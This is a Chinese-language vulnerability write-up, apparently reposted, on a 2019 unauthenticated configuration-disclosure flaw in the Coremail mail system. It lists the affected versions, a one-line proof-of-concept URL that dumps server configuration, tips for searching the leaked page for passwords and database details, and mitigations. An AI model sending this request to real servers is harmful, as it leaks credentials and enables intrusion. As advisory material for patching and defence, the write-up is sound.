

> 原文：[http://book.iwonder.run/0day/Coremail/1.html](http://book.iwonder.run/0day/Coremail/1.html)

### 一、漏洞简介

Coremail 论客邮件系统开始研发于 1999 年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过 10 亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019 年 6 月，网上流传出 Coremail 论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail 官网发布的漏洞公告：《关于 Coremail 邮件系统安全问题的情况说明》，[http://www.coremail.cn/About/news_x/article_id/32641.htm](http://www.coremail.cn/About/news_x/article_id/32641.htm)

### 二、漏洞影响

Coremail XT 3.0.1 至 XT 5.0.9 版本，XT 5.0.9a 及以上版本已修复该漏洞

### 三、复现过程

##### POC

```
http://mail.xxxxx.com/mailsms/s?func=ADMIN:appState&dumpConfig=/ 
```

输入 Poc 访问漏洞页面 发现信息泄露页面内搜索 user，password，database 等关键字 如下图



### 四、修复建议

1、在不影响使用的情况下，仅允许 VPN 连接后才可访问；

2、在 Web 服务器（nginx/apache）上限制外网对 /mailsms 路径的访问。建议使用 Coremail 构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。

